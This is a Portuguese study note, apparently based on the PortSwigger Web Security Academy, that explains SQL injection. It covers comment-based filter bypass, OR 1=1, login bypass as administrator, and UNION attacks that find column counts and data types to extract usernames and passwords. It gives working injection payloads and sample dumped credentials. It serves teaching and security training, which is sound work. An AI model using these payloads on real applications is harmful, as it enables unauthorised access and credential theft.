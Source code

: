 # SQL Injection

## SQL Injection

### Retrieving hidden data

Exemplo:

```sql
SELECT * FROM products WHERE category = 'category' AND released = 1 
```

A restrição para acessar ou não um item é restrito pelo parâmetro `released`

Um exemplo para poder acessar dados que um usuário comum não poderia:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Um exemplo para poder acessar o dados de todas as tablas:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

### Subverting application logic

Um exemplo de um login em uma query onde a entrada não é processado antes de fazer sua busca:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

É possível comentar a comparação da senha, assim é possível entrar em qualquer usuário.


```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```

### Retrieving data from other databases tables

Em casos onde a chamada do SQL retorna respostas com a aplicação, é possível acessar dados de outras tabelas usando a palavra chave `UNION` executando um `SELECT` adicional.

Um exemplo onde a entrada não é tratada:

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

É possível rodar o comando para receber os usuários e a senha de na tabela de usuários:

```sql
' UNION SELECT username, password FROM users--
```

#### UNION Attacks

Para esse ataque funcionar é necessário essas duas condições:

* As buscas individuais precisam retornar o mesmo número de colunas
* o tipo de data de cada coluna precisa ser compatível entre as buscas individuais

Normalmente para a execução desse ataque é descobrir a resposta para essas perguntas:

* Quantas colunas são retornadas pela busca original?
* Quais são os tipos de dadaos para cada query original?

##### Quantas colunas são retornadas pela busca original?

###### Método 1

Esse método usa várias buscas `ORDER BY N --` incrementando o número `N`, quando o número exceder o número de colunas o banco de dados vai retornar um erro:

Exemplo de erro:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

###### Método 2

Esse método usa várias buscas `'UNION SELECT NULL, NULL,...--` e enquanto número de queries não for o mesmo do banco de dados um erro será retornado.

Exemplo de erro:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

* `Oracle`: cada `SELECT` precisa de um `FROM` para especificar uma tabela válida. Existe uma tabela built-in chamada `dual` que poder ser usada. Um exemplo de como eles seriam executados: `' UNION SELECT NULL FROM DUAL --`

* `MySQL`: os payloads no `MySQL` precisam ser seguidos por um espaço, ou também é possível usar o caractere `#` para identificar um comentário.

##### Quais são os tipos de dados para cada query original?

Sabendo qual é o tamanho da busca é possível tentar descobrir qual das buscas suporta o tipo de dado `string`

Exemplo de teste:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Caso o tipo de data não seja compatível vai causar um erro no banco de dados, por exemplo:

```sql
Conversion failed when converting the varchar value 'a' to data type int.
```

##### Usando o ataque UNION para acessar dados sensíveis

Supondo que a busca retorne duas colunas que conseguem guardar dados de `string`, no exemplo abaixo tentamos pegar os campos `username` e `password` da tabela `users`:

```sql
' UNION SELECT username, password FROM users-- 
```

Obs: Precisamos descobrir o nome da tabela e de seus campos

##### Retornando múltiplos valors de uma única coluna

Supondo que a coluna retorne apenas uma coluna é possível retornar múltiplos valores juntos, idealmente incluíndo um separador para que seja possível distinguir as informações.

Na `Oracle` por exemplo você pode usar o payload (os operadores `||` são concatenações, e as duas buscas vão vir separadas pelo caractere `~`):

```sql
' UNION SELECT username || '~' || password FROM users--
```

Os resultados vão permitir que você consiga ler todos os nomes e senhas, por exemplo:

```
administrator~s3cure
wiener~peter
carlos~montoya
```

Para outros bancos de dados temos o [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
